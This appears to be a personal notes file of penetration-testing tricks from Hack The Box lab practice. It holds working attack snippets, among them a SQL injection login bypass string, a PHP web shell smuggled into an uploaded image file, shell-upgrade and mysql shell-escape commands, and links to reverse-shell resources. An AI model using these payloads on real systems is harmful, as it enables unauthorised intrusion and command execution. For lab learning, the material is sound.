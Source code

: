# tricks-htb
Tricks learned while working on the Hack the Box lab.

### Create Python http server to serve files
```bash
python -m SimpleHTTPServer
```

### Bypass login
(magic) Try SQL injection in the login form. Pass this as user and password: `' or 1 = 1--`

### Enumeration
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

### PHP reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

### Spawn bash shell using Python
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
The press ctrl + z

Then run: `stty raw -echo`

Then write `fg` and press enter (note there's no output of `fg`)

### Reverse shell cheatsheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### Dump traffic on an interface to console
This is useful when blind-exploiting a system, among other situations. Just dump the traffic of an interface to console:
```
tcpdump -i tun0 
```

### Exploit suggester for postexploitation on Metasploit
Use `post/multi/recon/local_exploit_suggester` after a non-admin meterpreter session is created in order to get suggestions on which exploits could be executed next.

### DNS
DNS servers are added to `/etc/resolv.conf`. It may be useful for when the server just accepts requests when host equals to _machineName.htb_. Otherwise the same could be achieved by adding an entry to the file `/etc/hosts`.

### SMB
Use smbmap to enumerate SMB. `smbmap -H $HOST_IP` 

### Redirects
If when intercepting the server responses with a proxy and the `302 Found` response has some content, the HTTP response number and code can be manually changed to, for example, `200 OK` to see the content on the browser instead of following the redirect.

### Abstract shit
- If there are so many things that look the same, check if there's one of them that's different.

### Shell from mysql
Run this from mysql to drop to a shell and see what user you are on:
`\! /bin/sh`

### Injecting php shell in image file
- Upload a proper image with the intercept on
- From the proxy, keep the following code as the "image"'s content: `{{imageMagicBytes}} <?php echo system($_REQUEST['whatever']); ?>`
- Also change the file name and append `.php` (if the image name is image.gif, it would be image.gif.php)
- Access the file from the browser and add `?whatever={{command}}`

### Wordpress
Use `wpscan` to scan Wordpress sites.

### jar files
Jar files can be decompiled to get information from them. First, unzip it using `unzip`, then decompile the unzipped .class file using the program `jad`.

### Do several scans concurrently
Mainly for when there are several services running on the server, but it should be always done that way. After the initial nmap scan has finished, start several scans depending on the case. Eg if port 80 is open, trigger gobuster (with 2 lists, one short and one longer), nikto and maybe an nmap vuln scan.

### Check if port is open with nc
`nc -zv $HOST_IP $PORT`
